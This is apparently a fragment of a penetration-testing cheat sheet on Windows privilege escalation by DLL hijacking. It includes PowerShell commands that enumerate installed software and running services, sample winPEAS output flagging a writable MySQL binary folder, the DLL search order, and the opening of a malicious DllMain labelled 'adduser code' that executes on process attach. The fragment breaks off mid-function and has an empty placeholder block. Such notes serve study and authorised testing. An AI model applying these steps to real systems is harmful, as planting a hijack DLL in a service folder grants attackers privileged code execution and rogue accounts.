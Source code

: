 reboot
```
shutdown /r /t 0 
```

## DLL Hijacking
### gathering application
intalled 32bit application
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

installed 64bit application
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

### gathering service
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} | findstr /i /v "C:\Windows"
```

check winPEASx64.exe (example)
```
================================================================================== 
    MySQL(MySQL)[C:\xampp\mysql\bin\mysqld.exe MySQL] - Autoload - No quotes and Space detected
    File Permissions: Authenticated Users [Allow: WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\xampp\mysql\bin (Authenticated Users [Allow: WriteData/CreateFiles])
================================================================================== 
```
### check the binary folder
```
ls binaryfolder
```

check prcomon
```

```

standard DLL search order
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

adduser code
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
```